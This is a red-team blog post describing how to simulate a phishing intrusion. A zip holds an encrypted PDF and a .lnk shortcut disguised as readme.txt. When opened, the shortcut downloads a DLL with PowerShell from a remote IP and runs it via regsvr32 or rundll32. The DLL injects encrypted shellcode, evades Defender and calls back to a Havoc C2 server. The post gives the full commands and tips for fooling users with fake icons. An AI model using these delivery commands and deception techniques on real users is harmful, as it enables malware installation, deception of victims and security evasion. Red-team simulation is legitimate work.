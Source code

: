 ```yaml
---
title: "Initial Access Simulation" 
layout: "post"
---
```


In this specific scenario we will try to experiment and simulate a malware payload delivery using the following technique frequently used by Threat Actors (TA): 

- Zip Folder
- .LNK file execution
- DLL Execution 
- Havoc C2C comunications

We will discuss a simple, minimal and baseline approach and we will take into account fews considerations regarding the initial access aspects. 



In normal red team campain it is paramount to find a way to deliver the malicious payload and force the user to interact with our files. 
For this reason, in this particular scenario, we will try to simulate a .zip delivery containing two distinct file. 
The firs file inside the `.zip` will be an encrypted PDF document (sign contract, legal document, CV, just use your immagination), the second one will be a `.lnk` shortcut file masquerade as a text file (`readme.txt`). 
The idea here is the following: the user receive the files (could be via email or via MS Teams) and try to open up the encrypted pdf, which will ask the user to specify a password and then the user will open up the fake notepad file to recover the original PDF's password. 
By doint so the `.lnk` shortcut file in the background will execute the tasks necessary to deliver and execute our malicious DLL.  



## 1) Introduction Initial Access 

Initial Access involves a range of techniques employed by threat actors to establish their initial presence within a target network. 
These methods encompass various entry vectors that serve as a foothold into the network. 
One particularly relevant technique is the employment of targeted spear-phishing campaigns. 
In these campaigns, attackers meticulously craft deceptive emails tailored to deceive recipients, often leading them to unknowingly disclose sensitive credentials or execute malicious attachments. 

This tactic holds significant relevance as successful spear-phishing attempts can grant attackers direct access to a network, bypassing many traditional security measures. 
In addition, threat actors frequently exploit vulnerabilities present in public-facing web servers to penetrate the network's defenses. It's noteworthy that initial access points gained through these techniques could grant ongoing access, such as using compromised accounts and external remote services. 

However, the effectiveness of these access points might diminish due to changing passwords or other security measures. 
Analyzing historical attacks by prominent threat actors reveals that these tactics are recurrently employed to breach networks, underscoring the significance of robust initial access security measures."


 



## 2) Defender Bypass Payload

We are not going into details on how we created this stealth DLL payload in this blogpost. 
Is it obviously possible to used any payload you want, the only assumption is that the paylod itself must be undetected by Defender AV and static signature. 
The DLL itself is pretty simple and perform the classic injection using the VirtualAlloc Windows API. 
However, to bypass static signature, the shellcode is encrypted with AES. 
Inside the DLL we have also included the AES Key to decrypt the shellcode as well as the AES Decryption. 

__Note:__ Since we are saving a payload into the disk we don't need to worry about AMSI at this stage. We are not operating in memory even though this can be considered not OPSEC safe. 



## 3) Weaponize Payload Delivery with LNK 

Firt of all we need to create a shortcut file that will be delivered with the encrypted PDF. Right click on your Desktop, click on create shortcut and you must enter the full path of `cmd.exe`, in this case it will be `C:\Windows\System32\cmd.exe`. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/lnk.PNG">
</p>


After that we can specify readme.txt as a shortcut name. (remember we want the user to click on the shortcut file thinking it is a text file with the password to decrypt the PDF). Since we don't want to show the typical `cmd.exe` icon, which might look suspicious, we can then add a specific icon that in this specific case will be notepad. Now we need to click on the shortcut properties and changhe the icon to match to notepad.txt (default windows text editor). 


<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/lnk2.PNG">
</p>

Now we can craft the powershell command to download the DLL from a remote location. This must be specified inside the shortcut target menu interface. Then we can specify the output where to save the `.dll` file. For this we will leverage the `%TMP%` environment variable of Windows so we don't even need to know the local user accoun name and path. 

The full command specified inside the shortcut file is the following: 

```powershell 
C:\Windows\System32\cmd.exe /c powershell.exe wget http://192.168.133.152:1234/h.dll -OutFile %TMP%\h.dll && regsvr32 %TMP%\h.dll 
```
__Note:__ The powershell download can be also be performed with the usual suspect IEX Download String function. 🚩

Futhermore, the above command is included inside the readme.txt.lnk file which will look like this to the end user. 

Below we can see the files that will be displayed to the user after unziping the `.zip` folder delivered via email or when possible via Microsft Teams. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/Invoice.PNG">
</p>

__Note:__ Obviously we can create a .lnk file with the desired command and subsequently add the typical pdf icon. 🚩

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/lnk3.PNG">
</p>

Upon executing the `readme.txt` file on the attacker machine we can see a web request on the webserver. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/down.JPG">
</p>

Furthermore, as soon as the file is downloaded and executed we can see our reverse shellcode in the Havoc C2C framework. 


<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/hav1.JPG">
</p>

With some modification on the `.dll` file we can also perform the same activity using the `rundll32` windows binary. 


```powershell 
C:\Windows\System32\cmd.exe /c powershell.exe wget http://192.168.133.152:1234/h.dll -OutFile %TMP%\h.dll && rundll32 %TMP%\h.dll,helo
```
The command is pretty similar even though in this case we need to specify the export function name declared in our `.dll`

Below is a quick video demonstrating our initial access scenario.

<video src="/assets/posts/2022-06-01-Initial-Access-Simulation/hvc1.mp4" controls="controls" style="max-width: 1000px;">
</video>



## 4) Conclusion and Limitation

- Email gateway scanner 
- Proxy communications 
- PackMyPayload https://github.com/mgeeky/PackMyPayload


## References 

- https://www.truesec.com/hub/blog/darkgate-loader-delivered-via-teams
